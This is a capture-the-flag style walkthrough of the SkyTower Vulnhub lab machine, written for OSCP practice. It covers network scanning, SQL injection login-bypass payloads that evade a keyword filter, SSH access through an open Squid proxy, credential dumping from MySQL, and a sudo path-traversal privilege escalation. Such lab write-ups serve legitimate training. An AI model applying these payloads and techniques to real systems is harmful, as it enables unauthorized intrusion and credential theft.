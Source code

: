```yaml
---
layout: single
title: "Vulnhub - Brainpan1"
header:
  overlay_image: /assets/img/thumbnails/thmbn-01.jpg
  caption: "[__Vulnhub__](https://www.vulnhub.com/entry/skytower-1,96/)"
excerpt: "Hack the planet!"
related: true
comments: true
---
```


# Introduction

Next walkthrough [VM](https://www.vulnhub.com/entry/skytower-1,96/) was made by Telspace Systems for a BSidesCPT security summit. Rated intermediate difficulty and assigned to 'todo' machines as preparation for OSCP I decided to give it a try. *Time to start!* 

***

# Recon

Start with **netdiscover** to find the initial SkyTower's IP:

```console
 Currently scanning: 192.168.31.0/16   |   Screen View: Unique Hosts                                           
                                                                                                               
 22 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 1320                                             
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.12    [REDACTED]           1       60      Apple, Inc.                                                 
 192.168.1.12    [REDACTED]           2       120     AzureWave Technology Inc.                                   
 192.168.1.1     [REDACTED]           8       480     ADB Broadband Italia                                        
 192.168.1.16    08:00:27:73:b0:c     9       2       120  PCS Systemtechnik GmbH                                      
 192.168.1.10    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.11    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.14    [REDACTED]           1       60      LG Innotek                                                  
 0.0.0.0         [REDACTED]           2       120     Apple, Inc.                                                 
 192.168.1.17    [REDACTED]           4       240     Apple, Inc.                                                 

```

Our target is **192.168.1.16**!

Proceed with **nmap** scan to find open ports and their services:

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.1.16

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-31 12:43 GMT
Warning: 192.168.1.16 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.1.16
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:GET
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:73:B0:C9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2
OS details: Linux 3.2, Linux 3.2 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.34 ms 192.168.1.16

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.75 seconds
```

Nmap scan shows, that there is a running HTTP Apache web server. Upon loading the page in a browser we get a result:

<img src="/img/blog/skytower/skytower-01.png">

An interesting page and a login functionality! I wonder how it reacts to SQL statements? Login crashes when we input a simple apostrophe - `'` inside username field. Clear sign of an SQL injection. 

<img src="/img/blog/skytower/skytower-02.png">  

A common login bypass would be a crafted request which looks very similar to: `' OR 1=1#`. Unfortunately there is a filter which prevents the injection:
 
<img src="/img/blog/skytower/skytower-03.png">  

`OR` and `=` completely dissapeared from the query. Hmm... A certain filter is blocking SQL keywords to prevent a disaster. If you don't know what to do, you should read an [article](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF) about bypassing filters / WAFs by OWASP. After enough trial and error I found a string which worked. `' OORR 1=1#` bypasses the defenses and puts us past the login!  

<img src="/img/blog/skytower/skytower-04.png">  

Alternatively, `' || 1=1#` will work as well. 

***

# Exploitation

* Username: john
* Password: hereisjohn

Nice! Before using the credentials we need to get past `filtered` port issue. If you remember, our *nmap* scan only showed SSH as filtered. Not opened. We can use **Squid proxy** (port:*3128*) to solve the problem. Doing a bit of enumeration, it is easy to see that the proxy isn't password protected and therefore we can add it to our proxychains list for later usage. 

Edit `/etc/proxychains.conf` file and add:
```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
http	192.168.1.16	3128 #SQUID PROXY
``` 

After that just connect to SSH via proxychains:
```console
proxychains ssh john@192.168.1.16
``` 

<img src="/img/blog/skytower/skytower-05.png">

Unfortunately the connection immediately drops. Most probably because `.bashrc` file has an *exit* instruction somewhere within it. To circumvent this, I just rename `.bashrc` on the target system and retry the login. This can be done by chaining a command right after doing SSH connect:

<img src="/img/blog/skytower/skytower-06.png">

Because `.bashrc` file has no longer an effect on our session, we are greeted with a nice shell! 

> Theoretically you can run any command by the previously mentioned method. Feel free to bypass the restriction any way you feel.

***

# Privilege Escalation

Browsing around the filesystem I notice there is an active instance of *MYSQL* database running. You can either guess the correct password (default) or find it inside `/var/www/login.php`.  

<img src="/img/blog/skytower/skytower-07.png">

Funny or not, you can also see the filter which prevented us from doing simple SQL injections. Enough of talking though. Connect to the database and get the sweet credentials!

```console
john@SkyTower:/var/www$ mysql -u root -p
Enter password: root

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> USE SkyTech;
Database changed

mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
If some of the queries are unclear I recommend reading a MySQL [cheatsheet](https://www.digitalocean.com/community/tutorials/a-basic-mysql-tutorial) by DigitalOcean. 

Afterwards I tried to login as Wiliam, but his credentials don't work. However Sara's do! She has the same *exit* annoyance thingy in `.bashrc` as John, but fear not. We already know how to go around it :).

<img src="/img/blog/skytower/skytower-08.png">

Then do `sudo -l`

<img src="/img/blog/skytower/skytower-09.png">

which reveals we can run `/bin/cat /accounts/` under root privileges. This alows for a path traversal and `cat`-ing of protected content. In my case the root flag.

```console
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ 
```

Just do `su root`, enter the password and BAAM! 

<img src="/img/blog/skytower/skytower-10.png">

## Rooted!

***

# Conclusion

In my opinion a prety solid box. I learnt few new things and had fun while doing so. What more can you wish for?! My thanks goes to **bitvijays** for providing me with guidance when I got stuck once or twice. Check out his blog at <http://bitvijays.github.io/> ! If there are any questions feel free to reach out to me by sending an email or leaving a comment down bellow.  

~V3 

<img src="/img/blog/skytower/bye.png">
